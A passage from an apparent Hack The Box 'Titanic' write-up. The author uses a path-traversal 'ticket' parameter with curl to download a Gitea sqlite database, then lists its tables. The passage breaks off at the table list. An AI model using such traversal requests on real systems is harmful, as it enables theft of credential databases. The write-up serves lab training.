 The application configuration, and most importantly, there is the location of the database, which referencing the documentation can be a sqlite, meaning we can download the file and have the database in our machine! Also there is no password on the database!
I download it with the `-o` flag of curl which saves the output on a file.
```
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ curl "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2036k  100 2036k    0     0  5189k      0 --:--:-- --:--:-- --:--:-- 5193k
```

I connect to the database using `sqlite3`
```
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ sqlite3 gitea.db    
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
action                     package                  
action_artifact            package_blob             
action_run                 package_blob_upload      
action_run_index           package_cleanup_rule     
action_run_job             package_file             
action_runner              package_property         
action_runner_token        package_version          
action_schedule            project                  
action_schedule_spec       project_board            
action_task                project_issue            
action_task_output         protected_branch         
action_task_step           protected_tag            
action_tasks_version       public_key               
action_variable            pull_auto_merge          
app_state                  pull_request             
attachment                 push_mirror              
auth_token                 reaction                 
badge                      release                  
branch                     renamed_branch           
collaboration              repo_archiver            
comment                    repo_indexer_status      
commit_status              repo_redirect            
commit_status_index        repo_topic               
commit_status_summary      repo_transfer            
dbfs_data                  repo_unit                
dbfs_meta                  repository               
deploy_key                 review                   
email_address              review_state             
email_hash                 secret                   
external_login_user        session                  
follow                     star                     
gpg_key                    stopwatch                
gpg_key_import             system_setting           
hook_task                  task                     
issue                      team                     
issue_assignees            team_invite              
issue_content_history      team_repo                
issue_dependency           team_unit                
issue_index                team_user                
issue_label                topic                    
issue_user                 tracked_time             
issue_watch                two_factor               
label                      upload                   
language_stat              user                     
```